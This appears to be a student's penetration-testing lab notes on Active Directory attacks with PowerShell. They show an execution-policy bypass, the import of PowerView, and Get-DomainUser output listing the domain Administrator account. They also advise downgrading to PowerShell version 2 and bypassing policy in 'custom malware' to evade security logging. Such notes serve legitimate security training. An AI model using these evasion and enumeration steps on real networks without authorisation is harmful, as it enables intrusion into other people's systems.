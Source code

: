 ### PowerShell

Great C2. Can create sessions, give them variable names, and run sessions against those variables (as in, against those sessions). 

Remember **there is almost always a way to run PowerShell.** Just keep looking. Remember that it will likely get at least logged at a minimum level to create a chain of events. 

> Look into AD Module. https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps. Or, Qasim's version https://github.com/hashtaginfosec/ADModule

Head to C > Tools > active_directory for local AD compromise tools. We are using PowerView. Import it from powershell

```Bash
PS C:\Tools\active_directory> Import-Module .\PowerView.ps1

# Cannot import because we need the bypass for restriction policy. 

PS C:\Tools\active_directory> powershell -ep bypass

# Starts a new PowerShell environment with bypass set

PS C:\Tools\active_directory> Import-Module .\PowerView.ps1

# Now we have the PowerView imported
```

As above, we can see we got blocked by the policy. The first thing in any session or custom malware should be the `-ep bypass` portion with the version specified, and we want version 2 because it will almost always exist and it is compatible with 99% of everything **while degrading security.** #evasion #privesc

1. PowerShell verison
2. ep bypass


Now that we have powerview....

```Bash
PS C:\Tools\active_directory> Import-Module .\PowerView.ps1
PS C:\Tools\active_directory> Get-DomainUser


logoncount             : 42
iscriticalsystemobject : True
description            : Built-in account for administering the computer/domain
distinguishedname      : CN=Administrator,CN=Users,DC=corp,DC=com
objectclass            : {top, person, organizationalPerson, user}
lastlogontimestamp     : 3/28/2022 5:50:03 PM
name                   : Administrator
objectsid              : S-1-5-21-4038953314-3014849035-1274281563-500
samaccountname         : Administrator
logonhours             : {255, 255, 255, 255...}
admincount             : 1
codepage               : 0
....
```
